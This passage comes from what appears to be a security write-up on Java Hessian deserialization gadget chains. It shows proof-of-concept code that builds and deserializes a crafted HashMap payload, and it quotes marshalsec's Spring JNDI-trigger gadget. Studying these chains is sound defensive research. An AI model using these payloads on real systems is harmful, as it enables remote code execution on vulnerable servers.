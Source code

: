 ```java
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, hotSwappableTargetSource1, hotSwappableTargetSource1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, hotSwappableTargetSource2, hotSwappableTargetSource2, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian serializes data
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian serialized data is: " + new String(serializedData, 0, serializedData.length));

        // Hessian deserializes data
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

<div align=center><img src="./images/9.png"></div>


## SpringPartiallyComparableAdvisorHolder
### Construct Analysis
 - Let's first look at the SpringPartiallyComparableAdvisorHolder.java` given in `marshalsec`, here you will pass the incoming `jndiUrl` into the SpringUtil#makeJNDITrigger` method.

```java
public interface SpringPartiallyComparableAdvisorHolder extends G
adget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makesPartiallyComparableAdvisorHolder ( UtilFactory uf, String[] args ) throws Exception {
        String jndiUrl = args[ 0 ];
        BeanFactory bf = SpringUtil.makeJNDITrigger(jndiUrl);
        return SpringUtil.makeBeanFactoryTriggerPCAH(uf, jndiUrl, bf);
    }
}
```
